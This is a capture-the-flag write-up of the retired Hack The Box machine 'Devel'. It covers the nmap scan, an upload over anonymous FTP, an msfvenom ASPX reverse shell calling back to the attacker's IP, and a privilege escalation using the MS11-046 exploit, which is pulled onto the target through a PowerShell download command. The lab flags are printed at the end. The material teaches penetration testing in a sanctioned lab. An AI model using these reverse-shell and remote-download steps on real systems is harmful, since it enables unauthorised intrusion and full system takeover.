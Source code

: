 ```yaml
---
layout: default
title: DEVEL
description: by Hack The Box
---
```

<h3 align="center">
This is quick walkthrough on how I've managed to root the retired devel machine from HTB
</h3>

## Enumeration

1. Scan with nmap

   ```
   ┌──(schoon3r㉿nexer)-[~/Engagements/THM]
   └─$ nmap 10.10.10.5 -A -T4 -Pn
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-24 20:03 EST
   Nmap scan report for 10.10.10.5
   Host is up (0.034s latency).
   Not shown: 998 filtered tcp ports (no-response)
   PORT   STATE SERVICE VERSION
   21/tcp open  ftp     Microsoft ftpd
   | ftp-anon: Anonymous FTP login allowed (FTP code 230)
   | 03-18-17  01:06AM       <DIR>          aspnet_client
   | 03-17-17  04:37PM                  689 iisstart.htm
   |_03-17-17  04:37PM               184946 welcome.png
   | ftp-syst:
   |_  SYST: Windows_NT
   80/tcp open  http    Microsoft IIS httpd 7.5
   |_http-server-header: Microsoft-IIS/7.5
   |_http-title: IIS7
   | http-methods:
   |_  Potentially risky methods: TRACE
   Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
   ```

2. FTP - looks like we can login with user anonymous
   ```
   ftp 10.10.10.5
   ```
3. Let's try to upload a file

   ```
   (in Kali)
   ┌──(schoon3r㉿nexer)-[~/Engagements/HTB]
   └─$ echo "Hello World" > text.txt

   (in FTP)
   tp> ls
   200 PORT command successful.
   125 Data connection already open; Transfer starting.
   03-18-17  01:06AM       <DIR>          aspnet_client
   03-17-17  04:37PM                  689 iisstart.htm
   11-25-21  03:25AM                   12 text.txt
   03-17-17  04:37PM               184946 welcome.png
   226 Transfer complete.
   ```

4. Cool. Let's look at the other service that is open.
5. Port 80. Let's try it on the browser. >>> Looks like an IIS default page.
6. Let's try and go to the pages that was inside the ftp directory
   - http://10.10.10.5/iisstart.htm
   - http://10.10.10.5/text.txt

## Starting a FootHold

7. So from here... we want to get a foothold on the server. We know we can upload a file and we know we can view the file from the browser. Let's turn to MSFVENOM
   ```
   msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.6 LPORT=4444 -o reverse-shell.aspx
   ```
   - -p is the location of our payload
   - -f is the format of the payload. Its ASPX because of the webserver
8. That will save a file reverse-shell.aspx to your directory. What will this payload do??? It creates a reverse shell to our netcat listener.
9. Let's now upload this file using our FTP anonymous login
10. Now let's start a netcat listener
    ```
    nc -nvlp 4444
    ```
11. Let us now go back to the browser to start the reverse shell
    ```
    http://10.10.10.5/reverse-shell.aspx
    ```
12. You will see that you now got a reverse shell in your netcat listener window
13. Lets traverse the directory.
14. You will find out that you do not have permission to view Babis and Administrator directories. This means that we need privesc.

## Enumerating for PrivEsc

15. let's type in:

    ```
    c:\Users>cd Classic .NET AppPool
    cd Classic .NET AppPool
    Access is denied.

    c:\Users>systeminfo
    systeminfo

    Host Name:                 DEVEL
    OS Name:                   Microsoft Windows 7 Enterprise
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          babis
    Registered Organization:
    Product ID:                55041-051-0948536-86302
    Original Install Date:     17/3/2017, 4:17:31 ��
    System Boot Time:          25/11/2021, 3:04:29 ��
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.
                            [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     3.071 MB
    Available Physical Memory: 2.430 MB
    Virtual Memory: Max Size:  6.141 MB
    Virtual Memory: Available: 5.514 MB
    Virtual Memory: In Use:    627 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                            [01]: vmxnet3 Ethernet Adapter
                                    Connection Name: Local Area Connection 3
                                    DHCP Enabled:    No
                                    IP address(es)
                                    [01]: 10.10.10.5
                                    [02]: fe80::58c0:f1cf:abc6:bb9e
                                    [03]: dead:beef::23c
    ```

16. A few interesting thing here is that

    - Its a Windows 7 Build 7600
    - Hotfix: N/A
    - It is based on the X86 architecture

17. While this is a very old pc, seems funny that there are no patches on the machine. Let's google
    ```
    Windows 7 build 7600 priv esc exploit
    ```
18. The first 2 results are from Exploit-DB. Let's check out the Build 7601(x86) - Local Priv Esc... which is exactly what we want.

## PrivEsc

19. Download the exploit and read the instructions on how to compile the exploit in C
20. Install mingw-w64
    ```
    sudo apt-get install mingw-w64
    ```
21. Compile the C program you've downloaded
    ```
    i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
    ```
22. Now we need to copy this file... into the C:\ drive of the target machine. Let's turn on a simple http server and copy the file
    ```
    python3 -m http.server 7331
    ```
23. Now from the netcat listener window... lets copy the file
    ```
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:7331/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
    ```
24. Let's verify if the file is copied? Great! Let's run it ~
    ```
    c:\Users\Public\Downloads>40564
    40564
    ```
25. Looks good! Let's try a few command to be certain we have root priv
    ```
    c:\Windows\System32>whoami
    whoami
    nt authority\system
    ```
26. Now we can get both user and root flags

    ```
    c:\Users\babis\Desktop>type user.txt.txt
    type user.txt.txt
    9ecdd6a3aedf24b41562fea70f4cb3e8

    c:\Users\Administrator\Desktop>type root.txt
    type root.txt
    e621a0b5041708797c4fc4728bc72b4b
    ```

# Reference

1. https://www.exploit-db.com/exploits/40564
2. https://www.offensive-security.com/metasploit-unleashed/msfvenom/

# Summary

1. We enumerated the machine using nmap and found ports 21 and 80 open
2. We found that we can upload file using the anonymous login and we can execute those file within the webserver on port 80
3. We tried to get a foothold of the machine using an MSFVENOM payload with an aspx format.
4. Once we got the reverse shell, we immediately found that we dont have a privileged user.
5. To privesc... we enumerated the machine again and found that it is an unpatched Windows 7 machine with build 7600 (x86)
6. Googling for exploit we found a link to an exploit in exploit-db
7. Installed mingw to compile the C code into an executable program and thankfully the command to complile is already provided in the link.
8. We then started a simple http server so can transfer the file into the machine and downloaded the file using a powershell script.
9. After this, we found that we now have root priv.


[back](./)
